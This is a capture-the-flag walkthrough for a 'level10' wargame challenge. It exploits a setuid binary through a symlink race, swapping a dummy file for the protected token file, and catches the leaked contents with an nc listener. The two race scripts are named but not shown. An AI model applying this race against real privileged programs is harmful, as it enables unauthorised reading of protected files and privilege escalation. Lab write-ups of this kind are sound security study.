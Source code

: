 # Level10

## Objective
Exploit the `level10` binary by switching a symbolic link between a dummy file and the `token` file, allowing access to the content of the `token` file.

## Steps

### Step 1: Understand `level10` Behavior
Examine the behavior of the `level10` binary by testing it with a dummy file and a listening server using `nc`:

```bash
nc -lk 6969
./level10 /tmp/dummy_file
```

Observe the communication between `level10` and the server.

### Step 2: Create Dummy File and Symlink
Create a dummy file and a symbolic link:

```bash
echo "exploit" > /tmp/myfile
ln -s /tmp/myfile /tmp/link
```

### Step 3: Execute Scripts
Run a listening server with `nc`:

```bash
nc -lk 6969
```

In parallel, execute the Python scripts:

```bash
python /tmp/script1.py
python /tmp/script2.py
```

Observe the output of the server, which should contain the contents of the `token` file.

### Step 4: Switch to `flag10`
Switch to the `flag10` user and execute `getflag`:

```bash
su flag10
getflag
```

This should give you the flag for this level.

Congratulations! You've successfully exploited the `level10` binary to switch the symlink and obtain the flag for `flag10`.